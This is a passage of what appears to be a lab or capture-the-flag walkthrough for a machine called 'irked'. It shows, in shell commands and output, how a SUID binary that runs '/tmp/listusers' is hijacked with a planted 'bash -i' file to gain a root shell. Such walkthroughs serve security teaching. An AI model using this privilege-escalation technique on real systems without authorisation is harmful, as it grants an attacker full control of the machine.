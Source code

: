 ```shell
djmardov pts/0 2020-05-03 13:12 (10.10.14.37)
uid=0(root) gid=1000(djmardov) groups=1000(djmardov),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),117(bluetooth)
djmardov@irked:/usr/bin$ 
```

So without looking at the source code, one could assume that it is running some sort of system call to '/tmp/listusers'. The unfortunate thing, for them anyway, is that there appears to be no input validation. Given this, simply writing `bash -i` and making it executable should grant a root shell:

```shell
djmardov@irked:/usr/bin$ viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0 2020-05-03 13:04 (:0)
djmardov pts/1 2020-05-03 16:38 (10.10.14.17)
sh: 1: /tmp/listusers: not found
djmardov@irked:/usr/bin$ echo 'bash -i' > /tmp/listusers
djmardov@irked:/usr/bin$ viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0 2020-05-03 13:04 (:0)
djmardov pts/1 2020-05-03 16:38 (10.10.14.17)
sh: 1: /tmp/listusers: Permission denied
djmardov@irked:/usr/bin$ chmod +x /tmp/listusers
djmardov@irked:/usr/bin$ viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0 2020-05-03 13:04 (:0)
djmardov pts/1 2020-05-03 16:38 (10.10.14.17)
root@irked:/usr/bin# id
uid=0(root) gid=1000(djmardov) groups=1000(djmardov),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),117(bluetooth)
root@irked:/usr/bin# 
```